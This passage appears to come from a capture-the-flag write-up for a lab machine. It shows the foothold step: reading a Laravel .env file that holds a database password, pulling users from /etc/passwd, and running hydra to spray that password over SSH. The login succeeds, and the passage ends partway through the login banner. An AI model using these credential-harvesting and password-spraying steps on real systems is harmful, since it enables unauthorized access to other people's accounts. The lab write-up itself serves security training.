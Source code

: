 ## Foothold

We start enumerating and found a few credentials sets for the database. We also
extract the users list from `/etc/passwd` and run the retrieved creds against the
SSH service using hydra. The password stored in `acedemy/.env` allow us to
connect as `cry0l1t3` using SSH and grab the user flag.


    :::text
    cat ls ../../academy/.env
    APP_NAME=Laravel
    APP_ENV=local
    APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    APP_DEBUG=false
    APP_URL=http://localhost

    LOG_CHANNEL=stack

    DB_CONNECTION=mysql
    DB_HOST=127.0.0.1
    DB_PORT=3306
    DB_DATABASE=academy
    DB_USERNAME=dev
    DB_PASSWORD=mySup3rP4s5w0rd!!

    BROADCAST_DRIVER=log
    CACHE_DRIVER=file
    SESSION_DRIVER=file


    $ hydra  -L users -p 'mySup3rP4s5w0rd!!' ssh://10.129.39.166
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-11 08:34:04
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
    [DATA] attacking ssh://10.129.39.166:22/
    [22][ssh] host: 10.129.39.166   login: cry0l1t3   password: mySup3rP4s5w0rd!!
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-11 08:34:09


    $ ssh -l cry0l1t3 10.129.39.166
    cry0l1t3@10.129.39.166's password:
    Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

      System information as of Wed 11 Nov 2020 01:53:21 PM UTC

      System load:             0.0
      Usage of /:              44.5% of 15.68GB
      Memory usage:            18%
      Swap usage:              0%
      Processes:               171
      Users logged in:         0
      IPv4 address for ens160: 10.129.39.166
      IPv6 address for ens160: dead:beef::250:56ff:feb9:a424
